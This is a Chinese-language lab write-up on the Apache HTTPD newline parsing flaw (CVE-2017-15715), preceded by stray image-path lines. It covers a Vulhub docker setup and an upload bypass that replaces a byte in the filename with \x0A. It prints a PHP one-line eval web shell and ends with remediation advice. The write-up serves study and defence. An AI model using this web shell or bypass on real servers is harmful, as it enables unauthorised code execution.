










# Apache HTTPD-换行解析漏洞（CVE-2017-15715）


| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-15715                                               |
| 漏洞名称 | Apache HTTPD 换行解析漏洞                                    |
| 漏洞评级 | 高危                                                         |
| 影响范围 | 2.4.0~2.4.29                                                 |
| 漏洞描述 | 在解析PHP时，`1.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略 |
| 修复方案 | 对上传文件重命名<br>过滤.php后缀文件<br>设备升级             |


### 1.1、漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.0~2.4.29版本中存在一个解析漏洞，在解析PHP时，`1.php\x0A`将被按照PHP后缀进行解析，导致绕过一些服务器的安全策略。

### 1.2、漏洞等级


### 1.3、影响版本

Apache HTTPD  2.4.0~2.4.29

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/CVE-2017-15715

---

启动测试环境：

```bash
sudo docker-compose build
sudo docker-compose up -d
```

访问`http://your-ip:{端口}/`即可看到



#### 2、漏洞扫描



#### 3、漏洞验证

上传一句话木马`1.php`，`bp`拦截数据包

```php
<?php
@eval($_REQUEST[6868]);
phpinfo();
?>
```





修改数据包




将1.php后面的`\0x2e`换成一个`\x0A`（注意，不能是`\x0D\x0A`，只能是一个`\x0A`）



点击`Send`，返回响应码`200`

访问刚才上传的`/1.php%0a`，发现能够成功解析，但这个文件不是php后缀，说明目标存在解析漏洞






### 1.5、深度利用

#### GetShell





### 1.6、修复建议

- 上传文件重命名
- 禁止.php这样的文件执行
- 升级版本